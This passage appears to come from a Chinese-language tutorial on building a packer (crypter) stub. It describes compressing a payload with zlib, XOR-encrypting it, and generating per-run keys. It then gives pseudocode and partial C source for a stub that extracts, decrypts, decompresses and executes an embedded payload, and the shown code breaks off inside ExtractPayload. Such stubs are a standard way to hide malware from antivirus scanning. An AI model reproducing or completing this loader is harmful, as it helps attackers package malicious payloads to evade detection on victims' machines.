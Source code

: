 其中，CompressPayload函数使用了zLib第三方压缩库，以在Payload缓冲区上进行压缩操作。

EncryptPayload函数则简单地使用了XOR的加密方式作为示例。在实际应用中，大家完全可以使用RC4或者AES之类的加密方式来替代XOR。该函数中还有一个GenerateKey函数，在每次程序执行时，它都会借助WinAPI的密码库（Cryptography Library），通过使用CSPRNG，来生成唯一的32位长度密钥。

BuildStub函数负责在壳中创建并添加资源。这些资源时存储在_FileStruct文件结构中的信息，是在壳本身的例程中所必须的。这些资源将会在壳代码被覆盖之后直观地展示出来。

## 

## 如何编写壳

壳的作用在于提取并执行Payload。我们需要注意的是，壳所执行的，是加壳器所执行的反向操作。下面是一个可行的设计方案。

壳的伪代码如下：

**第一步：提取资源；**

**第二步：解密Payload缓冲区；**

**第三步：解压缩缓冲区；**

**第四步：放置Payload；**

**第五步：执行Payload。**

以下是该方案对应的具体代码：

```
#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
#include &lt;stdarg.h&gt;
#include &lt;windows.h&gt;
#include &lt;wincrypt.h&gt;
#include &lt;zlib.h&gt;
#define WIN32_LEAN_AND_MEAN
#define DEBUG
#define DEBUG_TITLE "STUB - DEBUG MESSAGE"
#define BUFFER_RSRC_ID 10
#define FILE_SIZE_RSRC_ID 20
#define KEY_RSRC_ID 30
#define KEY_LEN 64
typedef VOID(*PZUVOS)(HANDLE, PVOID);

typedef struct _FileStruct `{`
    PBYTE pBuffer;
    DWORD dwBufSize;
    DWORD dwFileSize;
    PBYTE pKey;
`}` FileStruct, *pFileStruct;
VOID Debug(LPCSTR fmt, ...) `{`
#ifdef DEBUG
    CHAR szDebugBuf[BUFSIZ];
    va_list args;
    va_start(args, fmt);
    vsprintf(szDebugBuf, fmt, args);
    MessageBox(NULL, szDebugBuf, DEBUG_TITLE, MB_OK);
    va_end(args);
#endif
`}`
FileStruct *ExtractPayload(VOID) `{`
    FileStruct *fs = (FileStruct *)malloc(sizeof(*fs));
    if (fs == NULL) return NULL;
    // get file buffer
    // get size of resource
    HRSRC hRsrc = FindResource(NULL, MAKEINTRESOURCE(BUFFER_RSRC_ID), RT_RCDATA);
    if (hRsrc == NULL) `{`
        Debug("Find buffer resource error: %lun", GetLastError());
        free(fs);
```